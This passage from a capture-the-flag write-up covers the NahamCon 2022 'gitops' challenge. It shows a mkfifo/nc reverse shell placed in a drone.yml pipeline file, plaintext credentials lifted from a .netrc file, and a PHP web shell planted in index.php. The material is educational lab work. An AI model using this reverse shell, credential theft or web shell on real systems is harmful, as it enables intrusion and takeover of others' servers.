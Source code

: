 ### Key Points

- We do not have `bash` but we have access to `ash` and `sh`

- We can write in the `/tmp` folder

- No `python`, but `Perl` and `nc` are present

- Running Alpine Linux 3.15, which is a based on busybox, so limited commands

- x86_64 Linux If we would like to compile executable for the target

- We could use the Git CLI from this box to interact with the Repo instead of the Web Ui

### Generating the payload

With these information, there are multiple ways of gaining a remote shell on the target computer, we choose the following payload for this challenge, repeat the previous steps and include it in `drone.yml`

```
mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc x.x.x.x 80 >/tmp/f
```

- Start a listener on the selected port and catch the reverse shell with `nc -lnvp 80`

![Catching the shell](/static/images/nahamcon-ctf-2022/gitops/revshell_hello.png)

## Post Exploitation

Looking around the system, we found a really interesting file in the _Docker DroneCi Home folder_ named `.netrc`, we took a look inside, we had credentials for another user. We tried them against the Gitea application and successfully logged in as _DroneCI_

```
/tmp/drone-u2aFxfYSGZ02aua6/home/drone # cat .netrc
machine git.challenge.nahamcon.com login droneci password t4K0@s!qSF/tmp/drone-u2aFxfYSGZ02aua6
```

## Pivoting to Web Server

Remember in the `README.md`, we had to get someone else to approve our code before it gets merged into the Master Branch. We will use our newly discovered account to approuve our malicious commit.

We will add a simple command execution form in the `index.php` file, and I always like to put a `phpinfo();`, This ways, if per exemple system() command is disabled on the server, with the phpinfo, I will be able to confirm I can execute phpcode, and you should be able to view which functions are restricted and tons of usefull informations on the target.

```html
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="TEXT" name="cmd" id="cmd" size="80" />
  <input type="SUBMIT" value="Execute" />
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
<pre>
<?php
    phpinfo();
?>
</pre>
```
